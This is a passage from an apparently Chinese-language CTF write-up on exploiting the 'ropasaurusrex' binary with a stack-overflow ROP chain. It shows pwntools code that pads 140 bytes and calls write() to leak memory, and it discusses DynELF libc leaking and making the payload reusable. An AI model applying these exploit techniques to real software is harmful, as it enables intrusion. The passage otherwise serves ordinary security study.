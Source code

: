 


这种情况下我们就可以使用DynELF来leaklibc，进而获取system函数在内存中的地址。

首先我们来构建一个可以泄露任意地址的ROP链。通过测试我们可以知道栈溢出到EIP需要140个字节，因此我们可以构造一个payload如下：



```python
elf = ELF(‘./ropasaurusrex’)         #别忘了在脚本所在目录下放一个程序文件ropasaurusrex
 
write_addr = elf.symbols['write']
 
payload = “A”*140
payload += p32(write_addr)
payload += p32(0)
payload += p32(1)
payload += p32(0x08048000)
payload += p32(8)
```

使用payload打印出ELF文件在内存中的首地址0x08048000，write()运行结束后返回的地址随便填写，编写脚本后发现可以正确输出结果



![](pic3.png)



现在我们需要让这个payload可以被重复使用。首先我们需要改掉write函数返回的地址，以免执行完write之后程序崩溃。那么改成什么好呢？继续改成write是不行的，因为参数显然没办法继续传递。如果使用pop清除栈又会导致栈顶下降，多执行几次就会耗尽栈空间。这里我们可以把返回地址改成start段的地址



![](pic4.png)
